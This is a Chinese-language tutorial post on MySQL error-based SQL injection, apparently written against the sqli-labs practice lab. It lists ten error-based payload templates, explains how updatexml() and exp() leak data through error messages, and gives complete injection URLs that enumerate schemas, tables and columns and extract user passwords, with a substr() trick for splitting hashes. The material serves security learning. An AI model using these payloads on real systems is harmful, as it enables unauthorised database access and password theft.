 # 0x00 报错注入

报错注入在我们不能联合注入的时候也是非常重要的网上给我们提供了很多中报错注入 这里直接引用
https://www.cnblogs.com/wocalieshenmegui/p/5917967.html 一文了

```
1.floor()

select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);


2.extractvalue()

select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));


3.updatexml()

select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));


4.geometrycollection()

select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));


5.multipoint()

select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));


6.polygon()

select * from test where id=1 and polygon((select * from(select * from(select user())a)b));


7.multipolygon()

select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));


8.linestring()

select * from test where id=1 and linestring((select * from(select * from(select user())a)b));


9.multilinestring()

select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

10.exp()

select * from test where id=1 and exp(~(select * from(select user())a));

```


每个一个报错语句都有它的原理 比如 `exp()` 报错的原理 ,手册说到exp是一个数学函数 取e的x次方，当我们输入的值大于709就会报错 然后~取反它的值总会大于709所以报错。


简单的用报错语句来注入一下把这里我就利用函数 `updatexml()` 

```
updatexml (XML_document, XPath_string, new_value); 
XML_document: 是String格式，为XML文档对象的名称，文中为Doc 
XPath_string : Xpath
new_value :String格式，替换查找到的符合条件的数据 

```

其中关键点就是`XPath_string` 这块了 因为我们传入的的不是`XPath_string`,为什么要使用`concat` 这个函数呢，因为它是个连接函数你不用的话`(updatexml(1,(select user()),1))` 这样也可以但是需要字符中有特殊字符，才会报错，同时它会被中间的特殊字符截断，所以需要用到`concat`用特殊字符给他连接起来。


```
爆库：

http://127.0.0.1/sqli/Less-1/?id=1' and updatexml(1,(select concat(0x7e, (schema_name),0x7e) FROM information_schema.schemata limit 2,1),1) -- +

爆表：

http://127.0.0.1/sqli/Less-1/?id=1' and updatexml(1,(select concat(0x7e, (table_name),0x7e) from information_schema.tables where table_schema='security' limit 3,1),1) -- +

爆字段：

http://127.0.0.1/sqli/Less-1/?id=1' and updatexml(1,(select concat(0x7e, (column_name),0x7e) from information_schema.columns where table_name=0x7573657273 limit 2,1),1) -- +

爆数据：

http://127.0.0.1/sqli/Less-1/?id=1' and updatexml(1,(select concat(0x7e, password,0x7e) from users limit 1,1),1) -- +



```



在报错里面直接使用 MySQL最基本的查表就可以了,你也可以把concat放在外面 `updatexml(1,concat(0x7e, (select password from users limit 1,1),0x7e),1)`

自己灵活多变，这里我值得注意的是它加了连接字符md5只能爆出31位,你可以用分割函数分割出来。

```
substr(string string,num start,num length);

string为字符串

start为起始位置

length为长度

http://127.0.0.1/sqli/Less-1/?id=1' and updatexml(1,concat(0x7e, substr((select md5(password) from users limit 1,1),1,16),0x7e),1) -- +



```

因为我密码不是md5的 所以我加了个密来分割。


# 0x01 文末



#### 本文如有错误，请及时提醒，避免误导他人

* author：404